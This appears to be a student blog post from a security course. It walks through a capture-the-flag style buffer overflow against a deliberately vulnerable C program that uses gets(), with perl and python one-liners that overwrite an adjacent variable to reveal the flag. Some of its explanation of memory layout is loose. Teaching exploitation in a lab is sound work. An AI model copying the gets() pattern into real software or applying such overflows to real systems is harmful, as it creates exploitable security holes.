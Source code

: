 ```yaml
---
title: "Buffer Overflow - 1"
date: 2019-07-11T16:03:30+10:00

categories: ["Extended Security", "Musings"]
hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


The nice course tutors decided to provide us some programs vulnerable to buffer overflow attacks - so let's have a play with them!

# Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win(void);
void doCheck(void);

int main(int argc, char** argv) {
	doCheck();
	return EXIT_SUCCESS;
}

void doCheck(void) {
    // turn off print buffering
        setbuf(stdout, NULL);
    // setup local variables
	char team = 'A';
	char name[32];

    // Print
	printf("Halt! Who goes there!\n");

    // get user input, save to array
	gets(&name);

    // jump to function
	printf("Let me see if you're on the list, %s...\n",name);
	if (team == 'B') {
		win();
	}

	return;
}

void win(void) {
	printf("We can leave this here, because it is never called.\n");
	printf("Our flag is safe.\n");

	printf("Flag: COMP6841{Hey_Look_Ma_I_Made_It!}\n");

	return;
}
```

# Analysis 

Search up the manual for `gets`. 
**Do it now.**

```bash
$> man 3 gets
GETS(3)    Linux Programmer's Manual    GETS(3)

NAME
       gets - get a string from standard input (DEPRECATED)

SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.
```

That's right, **never** use `gets`.  
The `gets` function is very elementary, and will blindly write data into memory. In other words, if we write 33 bytes in a 32 byte array, that extra byte will also be written - to somewhere probably undesirable.

And that's exactly what we do to perform a _buffer overflow attack_ - we overflow the buffer (ie an array).

In this program, the `name` array is 32 bytes long, and is positioned **before** the `team` character variable.  

_Hold on._  
But `name` was declared after `team` - why is it positioned _before_???

## Computer Memory

In the computer, our program memory is separated into two regions: the **stack** and the **heap**.  

The _stack_ (containing our runtime variables) is located at the end of the allocated memory - it expands by building downwards.  
The _heap_ (program code and static things) is located at the start of the allocated memory, and it builds up.

```
0x00000000                             0xFFFFFFFF
-------------------------------------------------
HEAP------->                         <------STACK
```

As the stack builds **downards**, newer variables are given a lower memory address, which is why `name` is at an address lower than `team`, despite it being defined after.

And this is important for our overflow attack!

```
         name (32 bytes)         team (1 byte)
------------------------------------------------
[                              ][ ]
```

By exploiting `gets`, if we write more than 32 bytes - _i.e. 33 bytes_ - into `name`, the extra byte will be written into team.

We want to overflow a 'B' character into `team`, so we just need to pass 32 dummy characters, then a 'B' into the input of the program.

```
$> perl -e 'print("\x00" x 32 . "B")' | ./basic

# Or if you want to use python
# python -c "print('\x00' * 32 + 'B')" | ./basic`

Halt! Who goes there!
Let me see if you're on the list, ...
We can leave this here, because it is never called.
Our flag is safe.
Flag: COMP6841{Hey_Look_Ma_I_Made_It!}
Segmentation fault
```

So we've successfully retreieved the flag `COMP6841{Hey_Look_Ma_I_Made_It!}`

It doesn't matter what data is used to fill in `name`.

---

# Note on 64-bit architecture

On an x64 machine, we actually need to write 47 bytes into the input before we can inject our 'B'.

`perl -e 'print(" " x 47 . "B")' | ./basic`

Why?

Supposedly this is a compatability thing for SIMD instructions that operate on 128 bits (16 bytes). So there is some padding between the data - supposedly.

```
$> compile basic --length 15 > /dev/null 2> /dev/null
$> perl -e 'print("B"x15 . "B")' | aslr ./basic
::main:: around 0x555555555185
  name   around 0x7fffffffe46c

[Memory up to &team]
42,42,42,42,42,42,42,42,
42,42,42,42,42,42,42,42,

Let me see if you're on the list, BBBBBBBBBBBBBBBB...

We can leave this here, because it is never called.
Our flag is safe.
Flag: COMP6841{Hey_Look_Ma_I_Made_It!}
```

```
$> compile basic --length 16 > /dev/null 2> /dev/null
$> perl -e 'print("B"x16 . "B")' | aslr ./basic
::main:: around 0x555555555185
  name   around 0x7fffffffe460

[Memory up to &team]
42,42,42,42,42,42,0,fffffffe,
fffffff7,ffffffff,7f,0,0,0,0,0,
41,

Let me see if you're on the list, BBBBBBBBBBBBBBBBB...
```

`compile` is a stub program to modify the length of the buffer array. Regardless, as you can see, by changing the length from `15` to `16`, there are 10 bytes separating the end of the array, and the address of `team`.



